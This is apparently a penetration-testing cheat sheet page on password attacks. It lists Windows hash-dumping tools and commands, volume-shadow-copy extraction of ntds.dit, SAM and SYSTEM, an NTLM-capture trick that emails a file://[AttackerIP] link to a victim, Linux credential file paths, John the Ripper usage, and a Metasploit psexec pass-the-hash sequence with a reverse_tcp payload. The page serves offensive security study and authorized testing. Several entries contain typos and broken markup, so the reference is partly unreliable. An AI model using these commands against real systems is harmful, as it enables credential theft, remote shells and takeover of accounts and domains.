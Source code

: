 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 98
---
```

 
> **Obtain Windows Passswords**
Pwdump (File Dropped to Disk Caught by AV) | http://www.tarasco.org/security/pwdump_7/
fgdump (File Dropped to Disk Caught by AV, Source available to evade AV) | http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Other versions of pwdump | http://www.openwall.com/passwords/windows-pwdump
Metasploit hashdump | <code> meterpreter >hashdump (from memory) <br> meterpreter > run hashdump (hash and syskey from registry) </code>
Mimikatz | https://github.com/gentilkiwi/mimikatz
	
**Volume Shadow Copy Service (domain controller)**
{% highlight bash %}
https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs  
https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py  
> cscript vssown.vbs /status or /start or /create /c
> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit 
> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak
> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak

Analyze with http://csabarta.com/downloads/ntds_dump_hash.zip
{% endhighlight %}

**Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}

> **Linux Password Locations** 

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>

> **Password Guessing**

Hyrda

> **Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>

> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)

> **John the Ripper**

View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>

> **Pass the Hash**

***May require RID 500 account due to patch***
	
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec| <code> use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> 	set SMBUser [admin_name]  <br> set SMBPass [admin_hash] <br> exploit
Nmap nse smb | tbd


